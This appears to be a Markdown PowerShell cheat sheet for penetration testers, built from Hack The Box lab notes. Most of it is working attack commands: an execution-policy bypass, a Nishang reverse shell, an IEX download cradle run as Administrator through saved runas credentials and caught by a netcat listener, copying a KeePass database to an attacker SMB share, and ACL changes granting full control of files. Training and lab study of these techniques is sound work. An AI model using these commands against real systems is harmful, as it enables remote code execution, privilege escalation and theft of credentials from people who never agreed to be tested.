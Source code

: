
# Powershell Cheat Sheet for Pentesters

Useful Powershell commands for Pentesting purposes. 
 

## Load Powershell

### Method 1 (CMD):

```powershell
C:\> powershell 
C:\> powershell -ep bypass #Bypass Execution Policy
C:\> %SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
C:\> %SystemRoot%\SysNative\WindowsPowershell\v1.0\powershell.exe
```
- **System3** : On a 32-bit computer, all 32-bit programs store their files in C:\Program Files, and the system-wide library location is C:\System32.

- **SysWOW64** :  On a 64-bit computer, 64-bit programs store their files in C:\Program Files, and the system-wide C:\Windows\System32 folder contains 64-bit libraries. 32-bit programs store their files in C:\Program Files (x86), and the system-wide folder is C:\Windows\SysWOW64.

- **Sysnative** : is a virtual folder, a special alias, that can be used to access the 64-bit System32 folder from a 32-bit application or script. If you for example specify this folder path in your application's source code:
    
	Example :
	```powershell
	C: >  %SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
	```
	![c9f125dd97ae62013f99a49aad664a8d.png](./_resources/a4b3360e65b04d788a9b4060a7a4cf71.png)

### Method 2 (Meterpreter) :

```shell
	meterpreter > load powershell
	meterpreter > powershell_shell
```

### Method 3 (Nishang):
```powershell  
root > emacs -nw /opt/nishang/Shells/Invoke-PowerShellTcp.ps1
	    # Copy this command at the end of script and change [IP] and [PORT] :
		Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PORT]

root > python -m SimpleHTTPServer 80
C:\> powershell -ep bypass . .\Invoke-PowerShellTcp.ps1
```
------------------------------------
## Working with Files

### Search file:

```powershell
C:\users\alfred>  Get-ChildItem -Recurse C:\ user.txt -ErrorAction  SilentlyContinueSilentlyContinue
```

### Cat substring:

```powershell
PS C:\users\alfred> Get-Content user.txt
PS C:\users\alfred> (Get-Content user.txt).substring(0,16)  
```

------------------------------------
## Encoding


### Encode file with base64

```powershell
PS C:\Users\Phineas\Desktop> $fc = Get-Content "Oracle issue.txt"
PS C:\Users\Phineas\Desktop> $fe = [System.Text.Encoding]::UTF8.GetBytes($fc)
PS C:\Users\Phineas\Desktop> [System.Convert]::ToBase64String($fe)
```
![70985ab41d48deb4c24200c50ef65607.png](./_resources/013fbe31e2124f44bcb38f6485168d77.png)

### Encode Powershell command with base64 for windows (Little Endian)

```
root:~/InfoSec/CTF/Plateforms/HTB/VIP/Access > echo -n "IEX(New-Object Net.webClient).downloadString('http://10.10.14.35/xang.ps1')" | iconv --to-code UTF-16LE | base64 -w 0
```

```powershell
PS > runas /user:ACCESS\Administrator /savecred "powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgB3AGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADMANQAvAHgAYQBuAGcALgBwAHMAMQAnACkA"
```

```shell
root:~/InfoSec/CTF/Plateforms/HTB/VIP/Access >  nc -lvp 9002
        PS C:\Users\Administrator\Desktop> whoami
        access\administrator
```
------------------------------------
## Symbolic Links

### Examining Symbolic Link

```powershell
PS C:\Users\Public\Desktop> type "ZKAccess3.5 Security System.lnk"
PS C:\Users\Public\Desktop> $WScript = New-Object -ComObject Wscript.Shell     
PS C:\Users\Public\Desktop> $shortcut = Get-ChildItem *.lnk
PS C:\Users\Public\Desktop> $shortcut


        Directory: C:\Users\Public\Desktop


        Mode                LastWriteTime     Length Name                                                                  
        ----                -------------     ------ ----                                                                  
        -a---         8/22/2018  10:18 PM       1870 ZKAccess3.5 Security System.lnk                                       


PS C:\Users\Public\Desktop> $WScript.CreateShortcut($shortcut)


        FullName         : C:\Users\Public\Desktop\ZKAccess3.5 Security System.lnk
        Arguments        : /user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"
        Description      : 
        Hotkey           : 
        IconLocation     : C:\ZKTeco\ZKAccess3.5\img\AccessNET.ico,0
        RelativePath     : 
        TargetPath       : C:\Windows\System32\runas.exe
        WindowStyle      : 1
        WorkingDirectory : C:\ZKTeco\ZKAccess3.5
```

## Processes

 ### Check Process Architecture
------------------------------------
 Always check if your current process match the architecture of the target machine, otherwise you could face some issues
 
 ```powershell

	PS > [environment]::Is64BitOperatingSystem
		True
	PS > [environment]::Is64BitProcess
		False
 ```
![90d6a9dd8732f4bd33437b6a4493fa5f.png](./_resources/1cd7c269cdda4ecd93a59c5843d0b584.png)

## Servers 

### Start SMB Server without authentication
------------------------------------
- On the attacker's machine run:

	 ```shell
	 root > smbserver.py [NAME_SMB_SERVER]  `[SHARED_FOLDER]` 
	 ```
	 ![17338a4894e3a99b015cf4f1a54358ba.png](./_resources/8df48b71a2ff4926b18977e0107f679a.png)
 
- On the windows machine, connect to the smb server :
	 ```powershell
		PS > New-PSDrive -Name "SadiDrive" -PSProvider "FileSystem" -Root "\\10.10.14.35\lordofsadi-smb-server"

		PS > New-PSDrive -Name "SadiDrive" -PSProvider "FileSystem" -Root "\\10.10.14.35\lordofsadi-smb-server"

		Name           Used (GB)     Free (GB) Provider      Root                                               CurrentLocation
		----           ---------     --------- --------      ----                                               ---------------
		SadiDrive                              FileSystem    \\10.10.14.35\lordofsadi-smb-server


		PS > cd SadiDrive:
		PS > cp C:\Users\kohsuke\Documents\CEH.kdbx .  # copy from victim machine to our local machine

- On the attacker's machine, verify the connection:

![1322dda2e4703764af0745f8721a5dcf.png](./_resources/0aa259ed8e654d5d9dbeb6de5852ebd8.png)

------------------------------------
 ### Start SMB Server with authentication
------------------------------------
 ![28bae988f6e38b92b648286de050857d.png](./_resources/8667c7e8d3e143c0acca657c37f9fc47.png)
                
 
## ACL Control

```powershell
PS C:\users\administrateur> Get-ACL [File or directory] |  Fl* # check the ACL of the current directory of file (the interesting parts are in AccessToString and Owner Section)  (Fl * : Format List)
PS C:\users\administrateur> icacls root.txt /grant Alfred:(F) # Modify ACL of file root.txt , give full control to alfred (method 1)
PS C:\users\administrateur> cacls  root.txt /t /e /p Alfred:F  # Modify ACL of file root.txt , give full control to alfred (method 2)
```      

------------------------------------
## Issues
 ------------------------------------
### Function Call

Sometimes when we get a cmd reverse shell and we want to run "*powershell -ep bypass*", we get stuck, to fix the issue : try to call the function directly, instead of running the whole script.

- **Example** *(Powerup)*: 

	```
	root > emacs -nw powerup.ps1 
		   # add Invoke-AllChecks at the end of file

	C: > powershell -ep bypass . .\PowerUp.ps1
	```         

## Acknowledgments

*  [IppSec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) 